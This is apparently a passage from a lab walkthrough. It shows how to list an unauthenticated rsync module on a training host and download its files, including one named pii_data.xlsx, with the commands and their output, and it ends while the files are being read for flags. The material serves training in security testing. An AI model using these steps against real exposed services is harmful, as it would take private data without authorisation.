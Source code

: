 **Try exploring the RSYNC module yourself first!**

---

### Solution Walkthrough

#### Step 1: Explore the RSYNC Module
From our previous discovery, we found a module named `backupwscohen`. Let's examine its contents:

```bash
# List contents of the backup module
rsync rsync://target1.ine.local/backupwscohen/
```

**Results:**
```
root@INE:~|→
rsync rsync://target1.ine.local/backupwscohen/
drwxr-xr-x       4,096 2025/01/30 21:56:12 .
-rw-r--r--          20 2024/10/28 15:05:40 TPSData.txt
-rw-r--r--          25 2024/10/28 15:05:40 office_staff.vhd
-rw-r--r--          39 2025/01/30 21:56:12 pii_data.xlsx
```

#### Step 2: Download Files for Analysis
Let's download all files to analyze them locally:

```bash
# Download all files from the RSYNC module
rsync -av rsync://target1.ine.local/backupwscohen/ .
```

**Output:**
```
root@INE:~|→
rsync -av rsync://target1.ine.local/backupwscohen/ .
receiving incremental file list
./
TPSData.txt
office_staff.vhd
pii_data.xlsx

sent 84 bytes  received 339 bytes  846.00 bytes/sec
total size is 84  speedup is 0.20
```

#### Step 3: Search for Sensitive Information
Now examine each file for potential flags or sensitive data:

```bash
# Check each file for interesting content
cat TPSData.txt
cat office_staff.vhd
cat pii_data.xlsx
```
